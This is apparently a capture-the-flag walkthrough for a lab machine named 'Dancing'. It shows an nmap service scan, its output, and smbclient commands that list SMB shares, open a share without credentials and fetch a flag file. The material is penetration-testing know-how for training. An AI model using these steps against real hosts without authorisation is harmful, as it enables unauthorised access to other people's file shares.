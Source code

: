 # Dancing

## nmap
`nmap -vvv -sV -oA dancing <ip>`

```
# Nmap 7.92 scan initiated Wed Apr  6 04:42:43 2022 as: nmap -vvv -sV -oA dancing 10.129.54.45
Nmap scan report for 10.129.54.45
Host is up, received reset ttl 127 (0.28s latency).
Scanned at 2022-04-06 04:42:43 EDT for 28s
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       REASON          VERSION
135/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack ttl 127
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr  6 04:43:11 2022 -- 1 IP address (1 host up) scanned in 27.73 seconds
```

Port 135, 139, 445 is open.

## smbclient
`smbclient -L <ip>`
  
List the servers
  
  ```
  Enter WORKGROUP\user's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.54.45 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
Tried connecting to all the servers but every serves except for WorkShares requires credentials which I don't have. 

`smbclient \\\\<ip>\\WorkShares`

```
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1752789 blocks available
```

`cd James.p`
`get flag.txt`

This was the basic CTF using smbclient command. 
